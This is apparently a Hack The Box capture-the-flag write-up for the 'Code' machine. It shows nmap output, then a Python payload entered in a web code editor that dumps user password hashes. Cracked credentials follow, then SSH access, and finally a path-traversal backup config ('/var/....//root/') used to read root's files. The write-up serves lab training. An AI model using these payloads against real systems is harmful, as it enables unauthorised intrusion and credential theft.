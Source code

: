 # Code Write-up

<img src="https://labs.hackthebox.com/storage/avatars/55cc3528cd7ad96f67c4f0c715efe286.png" width="200" height="200">

## Recon 

### Port enumeration with NMap

`nmap -sC -sV 10.10.11.62`

    PORT     STATE    SERVICE   VERSION
    22/tcp   open     ssh       OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   3072 b5:b9:7c:c4:50:32:95:bc:c2:65:17:df:51:a2:7a:bd (RSA)
    |   256 94:b5:25:54:9b:68:af:be:40:e1:1d:a8:6b:85:0d:01 (ECDSA)
    |_  256 12:8c:dc:97:ad:86:00:b4:88:e2:29:cf:69:b5:65:96 (ED25519)
    5000/tcp open     http      Gunicorn 20.0.4
    |_http-title: Python Code Editor
    |_http-server-header: gunicorn/20.0.4
    9898/tcp filtered monkeycom
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

We can see that port 5000 is running a Python Code Editor.

![image](https://github.com/user-attachments/assets/64329268-39d2-469b-9b09-134864bc0cc4)

Use payload:

    print([(user.id, user.username, user.password) for user in User.query.all()])

![image](https://github.com/user-attachments/assets/92fb4455-617b-4f0c-9bd8-e3cdc8c175f1)

Credentials:

    development:759b74ce43947f5f4c91aeddc3e5bad3
    
    martin:3de6f30c4a09c27fc71932bfc68474be
    
    1:c4ca4238a0b923820dcc509a6f75849b

![image](https://github.com/user-attachments/assets/a691af07-fe5f-4653-bb4b-b2be4a868b4b)

![image](https://github.com/user-attachments/assets/8df2dc7a-163f-42a2-aae1-966d255f0329)

![image](https://github.com/user-attachments/assets/52502a54-c3a7-4a84-93ee-697ad8a9d519)

Passwords

`development`:`development`

`martin`:`nafeelswordsmaster`

## SSH

![image](https://github.com/user-attachments/assets/771c020d-8b06-43f8-bf6d-1efe1893f457)

![image](https://github.com/user-attachments/assets/0f7458be-8b8f-45ca-b973-4fc1bb80bdda)

![image](https://github.com/user-attachments/assets/ffeca174-7211-4583-a115-87c7ffad4a45)

![image](https://github.com/user-attachments/assets/f7bc8ab2-accc-41ea-8cd2-8d7055ef1ad2)

![image](https://github.com/user-attachments/assets/94b628f7-6a92-43b6-b553-4402d6d1c567)

    {
    “destination”: “/home/martin/”,
    “multiprocessing”: true,
    “verbose_log”: false,
    “directories_to_archive”: [
    “/home/app-production/user.txt”
    ]
    }

![image](https://github.com/user-attachments/assets/52bc9d84-f57c-4958-a3ab-19840b7022d8)

![image](https://github.com/user-attachments/assets/e037c2e8-6142-43e2-baba-03624b639a41)

![image](https://github.com/user-attachments/assets/d99448ae-4d95-46c1-bdd2-35d05a2221c1)

Get the user flag!

![image](https://github.com/user-attachments/assets/929e6daa-a817-4c99-bba9-8d3634d882ca)

Privilege Escalation

    {
    “destination”: “/home/martin/”,
    “multiprocessing”: true,
    “verbose_log”: true,
    “directories_to_archive”: [
    “/var/….//root/”
    ]
    }

![image](https://github.com/user-attachments/assets/571a91cb-c7f5-4d21-bbd4-4213ed9a6a69)

Get the root flag!

![image](https://github.com/user-attachments/assets/60a4d038-0792-4447-8de9-d619e4781f23)
